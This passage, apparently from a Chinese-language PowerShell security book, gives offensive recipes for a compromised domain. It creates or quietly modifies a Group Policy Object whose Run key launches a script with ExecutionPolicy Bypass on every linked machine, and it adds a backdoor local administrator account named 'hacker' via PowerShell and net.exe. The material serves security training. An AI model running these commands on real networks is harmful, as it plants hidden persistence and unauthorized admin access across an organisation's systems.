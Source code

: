 现在绑定已经创建，PowerShell 脚本将每天早上 7:00 执行。

### 使用组策略对象建立持久性

你已攻破了 DC，并希望通过**组策略对象**（**GPOs**）建立持久性。这样做的好处是，GPO 会反复应用到所有已配置的系统。如果 GPO 没有被删除或修改，你的 payload 将在成千上万的系统上始终执行。

#### 解决方案

你需要创建一个新的 GPO，在启动时运行你的 PowerShell 脚本或命令。这可以通过**组策略管理控制台**（**GPMC**）或 PowerShell 来完成。在这个示例中，我们使用 PowerShell 来创建 GPO：

```
$gpo = New-GPO -Name "PersistentScript"
Set-GPRegistryValue -Name "PersistentScript" -Key "HKLM\Software\Policies\Microsoft\Windows\CurrentVersion\Run" -ValueName "PersistentScript" -Type String -Value "powershell.exe -ExecutionPolicy Bypass -File \\Dc01\sysvol\PSSec.local\scripts\HelloWorld.ps1"
```

在这个示例中，我们创建了一个名为`PersistentScript`的 GPO。接下来，我们在启动文件夹中添加一个组策略注册表值，并将其配置为每次系统启动时通过 PowerShell（使用`ExecutionPolicy Bypass`参数）运行我们的脚本。这样，脚本将在组策略应用的每个系统启动时运行，无论执行策略如何配置。

最后，刚创建的 GPO 只需要应用到一个或多个目标系统。这可以通过`New-GPLink` cmdlet 来完成：

```
> New-GPLink -Name "PersistentScript" -Target "DC=domain,DC=local"
```

修改现有的 GPO 也是攻击者可能使用的选项，尤其是在权限不够严格的情况下。虽然新创建的 GPO 可能引起怀疑，但修改现有的 GPO 可能会避开蓝队的监控：

```
$gpo = Get-GPO -Name "PersistentScript"
Set-GPRegistryValue -Name "PersistentScript" -Key "HKLM\Software\Policies\Microsoft\Windows\CurrentVersion\Run" -ValueName "PersistentScript" -Type String -Value "powershell.exe -ExecutionPolicy Bypass -File \\Dc01\sysvol\PSSec.local\scripts\HelloWorld-Modified.ps1"
```

请注意，使用 GPO 作为建立持久性的手段，仅在你拥有适当的权限时有效。

### 创建一个新的用户帐户并将其添加到一个组中

你想创建一个新的用户帐户并将其添加到一个组中。

#### 解决方案

有多种方法可以实现你的目标。例如，你可以结合使用 `New-LocalUser` 和 `Add-LocalGroupMember` 来创建一个新用户并将其添加到现有组中：

```
> $pass = ConvertTo-SecureString "Hacked!123" -AsPlainText -Force
> New-LocalUser -Name hacker -Password $pass
> Add-LocalGroupMember -Group Administrators -Member hacker
```

另外，你可以使用 `net.exe` 来成功实现：

```
> net user hacker Hacked!123 /add /Y
> net localgroup administrators hacker /add
```
